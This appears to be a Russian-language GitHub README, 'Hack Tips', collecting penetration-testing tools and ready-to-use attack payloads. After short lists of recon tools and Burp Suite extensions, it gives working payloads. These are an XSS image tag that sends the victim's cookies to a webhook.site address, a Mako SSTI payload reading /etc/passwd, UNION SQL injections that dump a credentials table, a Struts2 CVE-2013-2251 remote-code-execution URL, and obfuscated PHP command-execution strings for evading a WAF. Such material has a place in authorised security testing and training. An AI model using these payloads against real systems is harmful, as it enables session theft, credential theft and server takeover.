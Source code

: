 # Hack Tips

## Разведка доменных имен

### [Cero](https://github.com/glebarez/cero)
Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-р�[...]  
- Извлекает сертификаты из любого протокола, работающего через TLS (не только HTTPS).  
- Позволяет указывать цели: доменные имена, IP-адреса и диапазоны CIDR (поддержка IPv6).

---

### [hakip2host](https://github.com/hakluke/hakip2host)
Инструмент для возврата связанных доменных имен по списку IP-адресов.  
- DNS PTR-поиски  
- Альтернативные имена субъектов (SAN) в SSL-сертификатах  
- Общие имена (CN) в SSL-сертификатах

---

### [httpx](https://github.com/projectdiscovery/httpx)
Быстрый и многоцелевой HTTP-инструментарий.  
- Позволяет запускать несколько тестов с помощью библиотеки.

---

### [waymore](https://github.com/xnl-h4ck3r/waymore)
Инструмент для поиска архивных ссылок через Wayback Machine.  
- Находит больше ссылок, чем другие инструменты.  
- Загружает архивные ответы и URL-адреса.

---

### [xnLinkFinder](https://github.com/xnl-h4ck3r/xnLinkFinder)
Поиск конечных точек и потенциальных параметров заданной цели.  
- Сканирование одного или нескольких доменов/URL  
- Поиск файлов и параметров в каталогах или файлах  
- Импорт из Burp (XML), ZAP (ASCII), Caido (CSV)  
- Интеграция с результатами waymore

---

## Burp Suite — полезные расширения

### Turbo Intruder
Мощное расширение для проведения высокоскоростных атак (brute-force, fuzzing) с помощью скриптов на Python.  
- Кастомизация логики атаки  
- Обработка ответов для поиска уязвимостей

#### turbo-intruder_script.py
Скрипт для проведения Time-Based SQL Injection с использованием расширения Turbo Intruder для Burp Suite. Скрипт перебирает символы для извлечения схем из базы данных через подстановку значений из файла символов и анализирует задержку в ответах для определения успешных угадываний.

---

### Copy as FFUF Command
Упрощает экспорт запросов из Burp Suite для ffuf.  
- Автоматически формирует команду ffuf по выбранному запросу

### Hackvertor
Расширение для преобразования и кодирования данных в Burp Suite.  
- Большое количество кодировок  
- Удобно для генерации payload'ов, обхода фильтров и анализа данных

### Param Miner
Автоматически ищет скрытые и нестандартные параметры в веб-приложениях.  
- Позволяет находить дополнительные точки атаки

### HackBar
Интерактивное расширение для тестирования и манипулирования HTTP-запросами прямо из Burp Suite.  
- Позволяет быстро конструировать и модифицировать payload'ы  
- Включает функции для кодирования/декодирования (URL, Base64 и др.)  
- Удобно для проведения ручного тестирования (XSS, SQLi, LFI и др.)  
- Поддерживает работу с cookie, заголовками и параметрами  
- Имеет панель быстрого доступа прямо в окне запроса

---

## Веб-уязвимости

### SSTI (Server-Side Template Injection) в Python

#### Mako Templates
- Проверка уязвимости:  
  ```python
  ${7*7}  # → 49
  ```
- Чтение файла:  
  ```python
  <% import os %>${os.popen('cat /etc/passwd').read()}
  ```

---

### XSS Payload

```html
<img src="x" onerror="this.src='https://webhook.site/ed4c7969-5419-4849-bf6d-003858a4c8a2?c='+encodeURIComponent(document.cookie); this.removeAttribute('onerror');">

```

#### exploit.svg
Пример SVG-файла с использованием встраивания XML External Entity (XXE). Содержит сущность, ссылающуюся на файл `/etc/passwd`, что может быть использовано для демонстрации или тестирования XXE-уязвимостей.

---

## LFI (Local File Inclusion)
- [PHP Wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md)
- [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) 
- **Top 25 LFI Parameters** — [файл](https://github.com/felixsta/hack_tips/blob/main/Top_25_LFI_Parameters)  
- **LFI Wordlists:**  
  - [SecLists/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)  
  - [DragonJAR/Security-Wordlist/main/LFI-WordList-Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)

#### delimiter_list
Список символов-разделителей, используемый для подбора полезной нагрузки при отравлении кэша (cache poisoning). Содержит различные символы и их URL-кодированные варианты, которые помогают обходить фильтры и изменять поведение кэширования на стороне сервера во время проведения атак или fuzzing.

---

## SQLi (SQL Injection)
- [Stacked Queries](https://www.sqlinjection.net/stacked-queries/)  
- [Pentestmonkey SQLi Cheat Sheet](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
- cn' UNION select 1,database(),2,3-- -	Current database name
- cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -	List all databases
- cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -	List all tables in a specific database
- cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -	List all columns in a specific table
- cn' UNION select 1, username, password, 4 from dev.credentials-- -	Dump data from a table in another database
---
## jQuery
- `jquery.fn.jquery` в `jQuery` возвращает строку, содержащую текущую версию библиотеки `jQuery`. Например, если вы используете `jQuery 3.7.0`, то `jquery.fn.jquery` вернет `3.7.0`

---
## Struts2 CVE-2013-2251 payload
```
/index.action?redirect:%25%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField%28%22allowStaticMethodAccess%22%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23a%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%22ls%20-la%22%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read%28%23d%29%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2C%23out.println%28%23d%29%2C%23out.close%28%29%7D
```

## Поиск кредов
```php
grep -r "password{" /www 2>/dev/null
```

## Обфускация payload для обхода WAF

- Использование шестнадцатеричного или octal-кодирования для скрытия функции.
```php
vuln.php?param=\x73\x79\x73\x74\x65\x6d("whoami")
```
- Динамическое создание строк через массивы символов.
```php
vuln.php?param=$a=['s','y','s','t','e','m'];$a=''.$a[0].$a[1].$a[2].$a[3].$a[4].$a[5];$a('whoami');
```
- Разбиение строки на части с использованием конкатенации или функций PHP. 
```php
vuln.php?param=$_GET[a]($_GET[b]);&a=system&b=whoami
```
